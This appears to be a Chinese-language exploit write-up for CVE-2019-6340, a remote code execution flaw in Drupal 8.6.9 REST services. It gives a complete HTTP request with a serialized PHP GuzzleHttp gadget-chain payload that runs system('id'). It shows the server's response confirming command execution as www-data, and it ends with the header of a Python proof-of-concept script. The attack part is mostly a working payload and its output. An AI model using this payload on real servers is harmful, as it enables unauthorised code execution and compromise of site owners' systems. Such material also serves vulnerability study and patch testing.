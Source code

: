 > 我们可以通过get请求发送有效载荷

    GET /drupal-8.6.9/node/1?_format=hal_json HTTP/1.1
    Host: www.0-sec.org
    Content-Type: application/hal+json
    Content-Length: 642

    {
      "link": [
        {
          "value": "link",
          "options": "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\u0000GuzzleHttp\\Psr7\\FnStream\u0000methods\";a:1:{s:5:\"close\";a:2:{i:0;O:23:\"GuzzleHttp\\HandlerStack\":3:{s:32:\"\u0000GuzzleHttp\\HandlerStack\u0000handler\";s:2:\"id\";s:30:\"\u0000GuzzleHttp\\HandlerStack\u0000stack\";a:1:{i:0;a:1:{i:0;s:6:\"system\";}}s:31:\"\u0000GuzzleHttp\\HandlerStack\u0000cached\";b:0;}i:1;s:7:\"resolve\";}}s:9:\"_fn_close\";a:2:{i:0;r:4;i:1;s:7:\"resolve\";}}"
        }
      ],
      "_links": {
        "type": {
          "href": "http://www.0-sec.org/drupal-8.6.9/rest/type/shortcut/default"
        }
      }
    }

> 返回值

    HTTP/1.1 200 OK
    Link: <...>
    X-Generator: Drupal 8 (https://www.drupal.org)
    X-Drupal-Cache: MISS
    Connection: close
    Content-Type: application/hal+json
    Content-Length: 9012

    {...}uid=33(www-data) gid=33(www-data) groups=33(www-data)

### poc

    #!/usr/bin/env python3

    # CVE-2019-6340 Drupal <= 8.6.9 REST services RCE PoC
    # 2019 @leonjza

    # Technical details for this exploit is available at:
    #   https://www.drupal.org/sa-core-2019-003
    #   https://www.ambionics.io/blog/drupal8-rce
    #   https://twitter.com/jcran/status/1099206271901798400
